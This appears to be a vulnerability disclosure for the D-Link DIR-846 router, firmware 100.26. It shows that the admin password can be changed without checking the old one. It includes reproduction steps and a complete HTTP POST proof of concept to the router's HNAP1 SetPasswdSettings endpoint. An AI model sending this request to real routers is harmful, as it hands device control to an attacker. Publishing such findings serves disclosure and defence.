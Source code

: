 # D-Link DIR-846 Bypass the original password verification, modify the administrator password #

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##

Reproduction Steps:
1. Go to your wi-fi router gateway [i.e: http://192.168.0.1]
1. login with admin
1. Send http request with admin cookies 
1. the original password verification request and the password change request are sent separately, not related to each other.you just need send the password change request to change admin password. 
POC:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 58
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetPasswdSettings":{"system_root_password":"123456789"}}
```
![](dlink12.png)

1. The vulnerable code is in file /squashfs-root/www/HNAP1/control/SetPasswdSettings.php.
![](dlink13.png)